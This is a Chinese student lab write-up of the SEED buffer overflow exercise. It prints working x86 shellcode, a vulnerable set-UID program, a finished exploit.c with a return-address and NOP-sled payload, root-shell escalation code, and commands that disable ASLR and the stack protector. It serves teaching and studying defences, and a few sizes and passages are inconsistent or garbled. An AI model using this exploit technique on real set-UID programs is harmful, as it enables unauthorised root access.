# Buffer Overflow Attack 

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)、边城

缓冲区溢出定义为程序尝试将数据写入超出预分配的固定长度缓冲区边界的情况。恶意用户可以利用此漏洞来更改程序的流控制，甚至执行任意代码段。这个漏洞是由于数据存储（例如缓冲区）和控件存储（例如返回地址）的混合而产生的：数据部分的溢出会影响程序的控制流，因为溢出会改变返回地址。

在本实验中，你将获得一个存在缓冲区溢出漏洞的程序；他们的任务是开发一种利用漏洞的方案，并最终获得root权限。除了攻击之外，还将指导学生了解 Fedora 中已实施的几种保护方案，以应对缓冲区溢出攻击。还需要评估这些计划是否有效并解释原因。

# Lec

#### 1、解释gcc参数-fno-stack-protector的含义，gcc的参数里面与stack overflow相关的还有哪些？

`-fno-stack-protector `此选项关闭了一个称为 StackGuard 的保护机 制，它能够抵御基于栈的缓冲区溢出攻击。它的主要思想是在代码中 添加一些数据和检测机制，从而可以检测到缓存区溢出的发生。 

与之有关的参数还有

 `-fstack-protector`：启用堆栈保护，不过只为局部变量中含有 char 数 组的函数插入保护代码。

 `-fstack-protector-all`：启用堆栈保护，为所有函数插入保护代码

#### 2、阅读Smashing The Stack For Fun And Profit. 

http://www.cs.wright.edu/people/faculty/tkprasad/courses/cs781/alephOne.html

文章着重介绍了进程的三部分之一：堆栈的被攻击的方式。解释了缓冲区溢出是什么，以及如何它们的漏洞进行攻击。由于C没有任何内置边界检查，溢出通常表现为写入字符数组的末尾。标准C库提供了许多用于复制或附加字符串的函数，这些函数不执行边界检查，包括：`strcat()，strcpy()，sprintf()和vsprintf()`。

缓冲区溢出允许我们更改函数的返回地址。通过这种方式，我们可以改变程序的执行流程。

在大多数情况下，我们希望程序进入一个rootshell。然后，我们可以根据需要发出其他命令。在我们试图利用的程序中没有这样的代码时，我们可以将代码置于溢出的缓冲区中执行，并覆盖返回地址，使其返回缓冲区。这也是我们在上面第一题中关闭检测“栈溢出”的机制的原因。

3、阅读下面两篇文章的同时，熟悉一下gdb基本操作，看汇编设断点查看内存之类的基本操作了解一点。
http://seanmurphree.com/blog/?p=157

主要讲的是C ++中的缓冲区/堆溢出。setAnnotation存在着一定的安全漏洞。此函数使用memcpy函数将从“a”指向的内存位置开始的字节写入以“annotation”开头的内存位置。它还使用字符串“a”的长度作为要写入的字节数。虽然strlen是用来提供许多字节复制的，但是它应该受到“annotation”长度的限制，而不仅仅是“a”。这就导致我们可以控制一个值，然后控制它的长度，我们可以溢出注释缓冲区，并导致对堆的更改。

https://tomasuh.github.io/2015/01/19/IO-Wargame.html  Level 3部分

展示了一个堆栈漏洞，使得可以将任意数量的数据写入输入缓冲区。将地址设为名为bad的函数，再使用名为good的函数的地址将其覆盖。

#### 4、认真观看，一共3部分

缓冲区溢出漏洞实验详解 Kevin Du
https://www.bilibili.com/video/av26297464 大概说下视频的内容。

一个 foo（）函数中的局部数据 buffer 拥有 12 字节的内存。Foo （）函数使用 strcpy（）函数从 str 复制字符串到 buffer 数组时，由 于原字符串长于 12 字节，strcpy（）函数将覆盖 buffer 区域意外的部 分内存这就是所谓的缓存区溢出。

 如果 buffer 数组之上的区域包含一些关键数据，如函数返回地址 （返回地址决定了函数返回是程序会跳转至何处执行）。如果缓冲区 溢出修改了返回地址，当函数返回时，它将跳转到一个新的地址，这 可能导致多种情况发生。情况一，这个新地址并没有映射到任何物理 地址，那么跳转失败程序崩溃。情况二，新地址可能映射到了受保护的空间，那么跳转仍会失败，程序崩溃。情况三，新地址可能映射到 某个物理地址，该地址中的数据不是有效的机器指令，跳转还是会失 败，程序崩溃。情况四，新地址存放的恰好是有效的机器指令，程序 会继续运行，但程序逻辑将会彻底改变。 

缓存区溢出可能导致程序崩溃或者执行其他代码。攻击者能够让 一个目标程序运行他们的代码时，他们就能够劫持该程序的执行流 程。如果该程序一某种特权运行，那就意味着攻击者将获得额外的权 限。

#### 5、详细解释一下什么是ASLR，以及Linux和Windows下实现有什么区别。

ASLR 意思是地址空间配置随机加载（英语：Address space layout randomization，缩写ASLR，又称地址空间配置随机化、地址空间布局随机化）是一种防范内存损坏漏洞被利用的计算机安全技术。

ASLR 对程序内存中的一些关键数据区域进行随机化，包括栈的位置、堆和库的位置等，目的是让攻击者难以猜测到所注入的恶 意代码在内存中的具体位置。

 在 Windows 平台，ASLR 不会影响运行时的性能，只是会拖慢模 块加载的速度。通常情况下，ASLR 不会影响性能，在某些运行 32 位 系统的场景中甚至会有一些性能提高。但是在运行比较慢的系统中， 当有很多图片需要加载到随机地址时，可能会产生卡顿现象。因为要 考虑图像的数据和大小等因素，我们很难量化 ASLR 对性能的影响。 但是其对堆或栈随机化的性能影响可以说是微乎其微的。 

在 Linux 平台，ASLR 会给系统带来性能损耗，这种损耗在 x86 架构上尤其大，也最容易被感知。

在 Windows 上，代码在运行时因重定位才被 patch。但在 Linux 与 Unix 的世界，该技术被称为 text 重定位。在 Linux 上，ASLR 用不 同的方式实现，除了在代码运行时 patch，其在编译时就用某种方式 使其地址无关。也就是说，可以将其加载到内存地址的任意位置，都可以正常运行。

# Lab

## 初始设置

**地址空间随机化**。您可以使用预配置的Ubuntu机器 执行实验室任务。由于`Ubuntu`和其他几个基于 Linux 的系统使用地址空间随机化来随机化堆和堆栈的起始地址，这将难以猜测确切地址；而猜测地址正是缓冲区溢出攻击的关键步骤之一。在本实验中，我们使用以下命令禁用这些功能：

```bash
$ su root
  Password: seedubuntu(enter root password) 
# sysctl -w kernel.randomize_va_space=0
```

**堆栈防护方案。** GCC编译器实现了一种称为“堆栈保护”的安全机制，以防止缓冲区溢出。 在存在此保护时，缓冲区溢出将无法正常工作。 如果使用`-fno-stack-protector`编译程序，则可以禁用此保护。 例如，要使用堆叠防护禁用编译程序示例，您可以使用以下命令：

```bash
gcc -fno-stack-protector example.c
```

**不可执行的堆栈。** Ubuntu用于允许可执行堆栈，但现在已更改：程序的二进制图像（和共享库）必须声明它们是否需要可执行堆栈，即，它们需要在程序标题中标记一个字段。 内核或动态链接器使用此标记来决定是否使该运行程序的堆栈可执行或不可执行。 此标记由最近的GCC版本自动完成，默认情况下，堆栈设置为不可执行。 要更改此，请在编译程序时使用以下选项：

```bash
For executable stack:
$ gcc -z execstack -o test test.c

For non-executable stack:
$ gcc -z noexecstack -o test test.c
```

### Shellcode

在开始攻击之前，您需要一个 shellcode。shellcode 是启动 shell 的代码。它必须被加载到内存中，以便我们可以强制易受攻击的程序跳转到它。思考以下程序：

```c
#include <stdio.h>

int main()
{
    char *name[2];

    name[0] = "/bin/sh";
    name[1] = 0;
    execve(name[0], name, 0);
}
```

我们使用的shellcode只是上述程序的汇编版本。以下程序向您展示如何通过执行存储在缓冲区中的 shellcode 来启动 shell。请编译运行以下代码，看看是否调用了shell。（如果你很勇，请查阅在线 Intel x86 手册以了解每条指令。）

```c
/* call_shellcode.c  */

/* 创建包含启动shell代码的文件的程序 */
#include <stdlib.h>
#include <stdio.h>

const char code[] =
    "\x31\xc0" /* xorl    %eax,%eax              */   %eax = 0 (avoid 0 in code)
    "\x50"     /* pushl   %eax                   */   set end of string“/bin/sh"
    "\x68""//sh"/* pushl   $0x68732f2f            */
    "\x68""/bin"/* pushl   $0x6e69622f            */
    "\x89\xe3" /* movl    %esp,%ebx              */    set %ebx
    "\x50"     /* pushl   %eax                   */
    "\x53"     /* pushl   %ebx                   */
    "\x89\xe1" /* movl    %esp,%ecx              */    set %ecx
    "\x99"     /* cdq                            */    set %edx
    "\xb0\x0b" /* movb    $0x0b,%al              */    set %eax
    "\xcd\x80" /* int     $0x80                  */    invoke execve ()
    ;

int main(int argc, char **argv)
{
  char buf[sizeof(code)];
  strcpy(buf, code);
  ((void (*)())buf)();
}
```

请使用以下命令编译代码（不要忘记execstack选项）：

```bash
gcc -z execstack -o call_shellcode call_shellcode.c
```

> 这个 shellcode 中有几个地方值得一提。
>
> 首先，第三条指令将“`//sh`”而不是“`/sh`”压入堆栈。这是因为我们这里需要一个 32 位的数字，而“`/sh`”只有 24 位。幸好，“`//`”等价于“`/`”，所以我们可以不用双斜线符号。
>
> 其次，在调用`execve()` 系统调用之前，我们需要分别将`name[0]`（字符串的地址）、 `name`（数组的地址）和`NULL`存储到`%ebx`、`%ecx`和`%edx`寄存器中 。
>
> > 第 5 行将`name[0]`存储到`%ebx`；
> >
> > 第 8行将`名称`存储到`%ecx`; 
> >
> > 第 9`行将 %edx`设置为零。
> >
> > 还有其他方法可以将`%edx` 设置为零（例如`xorl %edx, %edx`）；此处使用的（`cdql`）只是一条较短的指令。
>
> 最后，系统调用`execve()`在我们设置`%al`为 11 时被调用，并执行“ `int $0x80` ”。
>
> 

### **The Vulnerable Program**

```c
/* stack.c */

/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
    char buffer[24];

    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);

    printf("Returned Properly\n");
    return 1;
}
```

编译上述漏洞程序并使其设置为root-uid。 您可以通过在root时编译它来实现这一目标，然后chmod可执行文件至4755（别忘了用execstack和-fno-stack-protector参数关闭不可执行的堆栈和stackguard保护）：

```bash
su root 
  Password :seedubuntu
  
gcc -o stack -fno-stack-protector stack.c
chmod 4755 stack
exit 
```

上述程序存在缓冲区溢出漏洞。它首先从名为“`badfile`”的文件中读取输入，然后将此输入传递到函数`bof()`中的另一个缓冲区。原始输入的最大长度为 517 字节，但`bof()`中的缓冲区只有 12 字节长。因为`strcpy()`不检查边界，会发生缓冲区溢出。由于这个程序是一个set-root-uid程序，如果普通用户可以利用这个缓冲区溢出漏洞，普通用户可能能够得到一个root shell。应该注意的是，程序从一个名为“badfile”的文件中获取输入。此文件受用户控制。现在，我们的目标是为“badfile”创建内容，这样当易受攻击的程序将内容复制到其缓冲区中时，就可以生成一个 root shell。

## 指导方针

我们可以将 shellcode 加载到“badfile”中，但它不会被执行，因为我们的指令指针不会指向它。我们可以做的一件事是将返回地址更改为指向 shellcode。但是我们有两个问题：（1）我们不知道返回地址存储在哪里，以及（2）我们不知道shellcode存储在哪里。要回答这些问题，我们需要了解执行进入函数的堆栈布局。下图给出了一个例子。


##### 查找存储返回地址的内存地址。

从图中我们知道，如果能找出`buffer[]`数组的地址，就可以计算出返回地址存放在哪里。由于易受攻击的程序是一个`Set-UID`程序，你可以复制这个程序，并以你自己的权限运行它；这样您就可以调试程序（请注意，您不能调试`Set-UID`程序）。在调试器中，您可以计算出`buffer[]`的地址，从而计算出恶意代码的起点。你甚至可以修改复制的程序，让程序直接打印出`buffer[]`的地址。`运行Set-UID时buffer[]`的地址可能会略有不同``副本，而不是您的副本，但您应该非常接近。

如果目标程序是远程运行的，你可能无法依靠调试器找出地址。然而，你总能 *猜到*。以下事实使猜测成为一种非常可行的方法：

- 堆栈通常从同一个地址开始。
- 堆栈通常不是很深：大多数程序在任何时候都不会将超过几百或几千个字节压入堆栈。
- 因此，我们需要猜测的地址范围实际上非常小。

##### 寻找恶意代码的起点。

如果能准确计算出`buffer[]`的地址，就应该能准确计算出恶意代码的起始点。即使您无法准确计算地址（例如，对于远程程序），您仍然可以猜测。为了提高成功的机会，我们可以在恶意代码的开头添加一些NOP；因此，如果我们可以跳转到这些 NOP 中的任何一个，我们最终可以找到恶意代码。下图描述了攻击。



##### 在缓冲区中存储一个长整数：

在您的漏洞利用程序中，您可能需要将一个`长` 整数（4 个字节）存储到从 buffer[i] 开始的缓冲区中。由于每个缓冲区空间是一个字节长，因此整数实际上将占用从缓冲区[i] 开始的四个字节（即，缓冲区[i] 到缓冲区[i+3]）。因为 buffer 和 long 是不同的类型，所以不能直接将整数赋值给 buffer；相反，您可以将 buffer+i 转换为`长`指针，然后分配整数。以下代码显示如何将`长`整数分配给从 buffer[i] 开始的缓冲区：

```c
char buffer[20];
long addr = 0xFFEEDD88;

long *ptr = (long *) (buffer + i);
*ptr = addr;
```

## 任务1：利用漏洞

### 编译赋权

将stack的11行的数组改为`buffer[66];`

在**root状态**下编译 stack.c 程序（关闭栈保护，打开栈可执行），并赋予 SUID 权限。

之后要关闭地址随机化

```bash
sudo su

gcc -o stack -z execstack -fno-stack-protector stack.c
chmod 4755 stack

sudo sysctl -w kernel.randomize_va_space=0

exit
```



###  gdb 调试 

用 gdb 调试 stack 程序main函数和bof函数

```bash
gdb stack

disas main
```




可见，`bof()`函数的返回地址为 `0x080484ff`

```
disas bof
```



执行完` bof()`后的地址为` 0x0804849c`。` q`退出gdb。

### 标记缓冲区

> 这有部分完成的漏洞利用代码`exploit.c`。这段代码的目标是为“badfile”构造内容。在这段代码中，shellcode 是给你的。还需要完成其余部分。

```c
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[] =
    "\x31\xc0" /* xorl    %eax,%eax              */
    "\x50"     /* pushl   %eax                   */
    "\x68"
    "//sh" /* pushl   $0x68732f2f            */
    "\x68"
    "/bin"     /* pushl   $0x6e69622f            */
    "\x89\xe3" /* movl    %esp,%ebx              */
    "\x50"     /* pushl   %eax                   */
    "\x53"     /* pushl   %ebx                   */
    "\x89\xe1" /* movl    %esp,%ecx              */
    "\x99"     /* cdq                            */
    "\xb0\x0b" /* movb    $0x0b,%al              */
    "\xcd\x80" /* int     $0x80                  */
    ;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```


为了找出 buffer 的首地址，以及 bof 函数的返回地址所在地址与其相差的字节数。 

我们使用“AAAA”来标记 buffer 的前四个字节

```c
/* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

/* You need to fill the buffer with appropriate contents here */
    strcpy(buffer, "AAAA");
/* Save the contents to the file "badfile" */
```

编译、运行 exploit.c 程序。

```bash
gcc exploit.c -o exploit
./exploit
```



再用 gdb 调试 stack。在 bof 函数结束（0x0804849c）处设置断点。用 r 命令使其运行到断点处。

```
gdb stack

b *0x0804849c

r
```



再使用命令 x/150xb $esp 来查看内存的内 容。其中，第一个 x 表示显示内容，150 表示显示的单元数，第二个 x 表示显示为十六进制，b 指每个单元显示一个字节的内容。bof返回地址`0x080484ff`

```
x/150xb $esp
```



可以看出，buffer 的首地址为 `0xbffff0ce`，存放 bof 函数返回地址的地址为 `0xbffff11c`，故两者相距 $0xbffff11c-0xbffff0ce=6+8\times8+4+4=78$个字节。因此，我们只需要将 bof 函数的返回地址修改为 shellcode 的地址即可，而在此之前的 78 个字节用字符‘A’来填充 

### 写入badfile

> 为了增加跳转到恶意代码的正确地址的机会，我们可以用NOP指令填充坏文件，并将恶意代码放置在缓冲区的末尾。
>
> 注意：NOP-什么都不做的指令。
>
> 
>
> 

先获取78个`A`

```bash
python -c "print 'A'*78"
```



接下来我们需要计算 shellcode 的地址。从理论上来说 shellcode 的 地址只要大于 buffer 首地址+78+4（返回地址）即可，但是我们求出 来的 buffer 首地址是通过调试手段找到的地址，在 gdb 中运行得到的 buffer 地址可能与直接运行时不同，因为 gdb 开始时往栈中压入了一 些额外的数据。

所以我们将 shellcode 放在 buffer 首地址+482的位置， 而此前的内容用 nop 填充以提高猜测的成功率。由于我们不知道buffer 是会前移还是后移，所以我们将 shellcode 的入口点设置为中间 的 nop 的地址。该地址为 $bffff0ce（buffer 首地址）+78（78 个A） +4（新的返回地址）+(482-82)/2（中间的 nop 指令）=bffff1e8$。 于是 exploit.c 程序改写为：

```c
    /* You need to fill the buffer with appropriate contents here */
    strcpy(buffer, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe8\xf1\xff\xbf");
    strcpy(buffer+482,shellcode);
```

### 获取权限

> 完成上述程序后，编译并运行它。这将生成“badfile”的内容。然后运行易受攻击的程序`堆栈`。如果你的漏洞利用被正确实现，你应该能够获得一个 root shell：

> **重点**：请先编译您的易受攻击的程序。请注意，生成坏文件的程序exploit.c 可以在启用默认堆栈防护保护的情况下进行编译。这是因为我们不会在这个程序中溢出缓冲区。我们将溢出 stack.c 中的缓冲区，该缓冲区在编译时启用了默认的 Stack Guard 保护。

```bash
  $ gcc -o exploit exploit.c
  $./exploit        // create the badfile
  $./stack          // launch the attack by running the vulnerable program
  # <---- Bingo! You've got a root shell! 
```

重新编译运行 exploit.c 程序，再运行 stack。

```bash
gcc -o exploit exploit.c
./exploit
./stack 
```

获得了 root shell。



> 需要注意的是，虽然你得到了“#”提示符，但你的真实用户id仍然是你自己（有效用户id现在是root）。您可以通过键入以下内容进行检查：

```bash
# id
uid=(500) euid=0(root)
```



> 如果许多命令作为 `Set-UID` `root`进程而不是仅仅作为`root`进程执行，它们的行为会有所不同，因为它们识别出真正的用户 id 不是`root`。要解决这个问题，您可以运行以下程序将真实用户 id 变为 `root`。这样，您将拥有一个真正的`root`进程，它更强大。

```c
/* attack.c*/
void main()
{ 
  setuid(0);  
  system("/bin/sh");
}
```

先退出root吧，编译attack.c

```bash
exit

gcc attack.c -o attack

./attack
id
```

 

此时 uid 变成了 root，实验成功。

## 任务 2：地址随机化

> 现在，我们打开 Ubuntu 的地址随机化。我们运行在任务 1 中开发的相同攻击。你能得到一个 shell 吗？如果不是，问题是什么？地址随机化如何使您的攻击变得困难？你应该在你的实验报告中描述你的观察和解释。您可以使用以下说明打开地址随机化：

```bash
  $ su root
    Password: seedubuntu(enter root password)
  # /sbin/sysctl -w kernel.randomize_va_space=2
```



> 如果运行易受攻击的代码一次无法获得 root shell，那么运行多次如何？您可以在以下循环中运行`./stack` ，看看会发生什么。如果您的漏洞利用程序设计正确，您应该能够在一段时间后获得 root shell。您可以修改您的漏洞利用程序以增加成功的可能性（即，减少您必须等待的时间）。
>
> ```bash
> $ sh -c "while [ 1 ]; do ./stack; done;"
> ```

使用循环多次执行攻击：通过在无限循环中运行代码来攻破它。

```bash
sh -c "while [ 1 ]; do ./stack; done;"
```



对酒当歌：执行了 20 分钟，依然没有成功。



边城：地址随机化后，攻击难度大大增加，循环一个小时左右才获取root权限。



## 任务3：堆栈守卫

**Stack Guard**

> 在处理此任务之前，请记住首先**关闭地址随机化**。
>
> 在我们以前的任务中，我们在编译程序时禁用了GCC中的“Stack Guard”保护机制。 在此任务中，您可以考虑在存在堆栈保护时重复任务1。 为此，您应该在没有-fno-stack-protector'选项的情况下编译程序。 对于此任务，您将重新编译易受攻击的程序，堆栈CCC堆栈保护，再次执行任务1。
>
